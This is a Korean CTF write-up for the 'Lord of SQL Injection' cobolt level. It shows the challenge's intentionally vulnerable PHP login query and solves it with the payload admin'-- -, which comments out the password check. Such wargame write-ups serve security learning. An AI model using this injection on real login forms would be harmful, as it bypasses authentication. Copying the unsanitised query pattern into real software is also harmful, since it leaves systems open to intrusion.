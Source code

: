 Lord of SQL Injection No.2 - cobolt
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
```
위 코드에서 알 수 있는 것
-------------
preg_match로 인해 .과()이 id와 pw에 들어가 있으면 No Hack ~_~ 라고 뜨며 문제풀이에 실패하는 것을 알 수있다.
그리고 $result['id']에 admin이 들어가 있으면 문제풀이에 성공하는 것을 알 수 있다.(9번째줄)

문제 풀이법
-------------
1) id값에 admin을 넣어준다.
http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
싱글쿼터로 admin에서 받는값을 끝내주고 뒤에 pw를 입력하지 않고 뚫기 위해 주석처리를 해준다.
